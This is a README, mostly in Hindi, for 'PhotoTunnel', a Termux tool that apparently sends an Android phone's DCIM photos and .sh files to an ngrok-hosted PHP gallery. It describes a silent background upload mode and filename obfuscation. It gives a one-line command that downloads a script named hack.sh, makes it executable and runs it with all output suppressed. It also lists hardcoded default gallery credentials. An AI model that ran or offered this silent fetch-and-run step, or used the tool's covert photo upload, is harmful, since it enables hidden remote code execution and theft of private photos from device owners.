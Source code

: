 # 📸 PhotoTunnel
**Termux Auto Image/Script Uploader with PHP + ngrok + Secure Gallery**

PhotoTunnel एक ऑटोमेशन प्रोजेक्ट है जो Android (Termux) से आपके PHP/ngrok सर्वर पर **DCIM फोल्डर की इमेजेस** और **.sh स्क्रिप्ट फाइलें** सुरक्षित तरीके से अपलोड करता है।  
इसके साथ एक **पासवर्ड प्रोटेक्टेड गैलरी**, सर्च/सॉर्ट फीचर, और लॉग सिस्टम भी है।

---

## ✨ फीचर्स
- **📤 Termux Upload Script**
  - DCIM फोल्डर से इमेजेस का ऑटो अपलोड
  - Silent Mode → बिना आउटपुट के बैकग्राउंड अपलोड
  - File Obfuscation → अपलोड के समय नाम बदलना
- **🔐 Secure PHP Gallery**
  - Login Required (default: `codex` / `Codex@2003`)
  - Search & Sort (Newest, Oldest, Name)
  - Download Images
- **🛡 Security**
  - Brute Force Protection (5 फ़ेल login → लॉक)
  - CSRF Token Protection
  - Secure HTTP Headers
  - Sanitized Filenames
- **📝 Logs**
  - IP, Date/Time, Action (Login, Download, Logout…)
  - लॉग फाइल डाउनलोड का ऑप्शन (सिर्फ लॉगिन के बाद)
- **💻 .sh File Upload Web Form**
  - वेबसाइट से केवल `.sh` फाइलें अपलोड करें

---

## 📂 फाइल स्ट्रक्चर 
```
.
├── .github/workflows/deploy.yml    # GitHub Actions workflow
├── upload.php                      # File upload handler
├── gallery.php                     # Secure image gallery
├── sh.php                          # Termux auto-upload script (auto-generated)
├── README.md                       # यह डॉक्युमेंट
```

---

### 2️⃣ Secrets सेट करें (GitHub)
- Repo → **Settings** → **Secrets and variables** → **Actions**
- `New repository secret` क्लिक करें  
  **Name:** `NGROK_AUTHTOKEN`  
  **Value:** आपका ngrok ऑथ टोकन  

### 3️⃣ Workflow रन करें
- कोई भी फ़ाइल push करें या commit → workflow ऑटो रन होगा

### 4️⃣ Termux पर स्क्रिप्ट रन करें
```bash
curl -s -O https://raw.githubusercontent.com/<username>/<reponame>/main/hack.sh && chmod +x hack.sh && ./hack.sh >/dev/null 2>&1
```
### Full Guid Github Guru YouTube channel,
---

## 🔒 लॉगिन डिटेल्स
- **Gallery URL:** `https://<ngrok-url>/gallery.php`  
- **Username:** `codex`  
- **Password:** `Codex@2003`

---

## 📜 लॉग एक्सेस
- गैलरी में लॉगिन के बाद "Download Logs" बटन से डाउनलोड करें  
- लॉग फॉर्मेट:
```
[YYYY-MM-DD HH:MM:SS] USERNAME: codex | IP: x.x.x.x | ACTION: DOWNLOAD_IMAGE | DETAILS: file.jpg
```

---

## ⚠️ सुरक्षा टिप्स
- Public में पासवर्ड बदलें  
- Logs और uploads को सुरक्षित permissions दें  
- ngrok URL को पब्लिक में शेयर करने से बचें

---

## 📝 लाइसेंस
MIT License

---

## 🤝 योगदान
Pull requests, issues और सुझाव का स्वागत है!
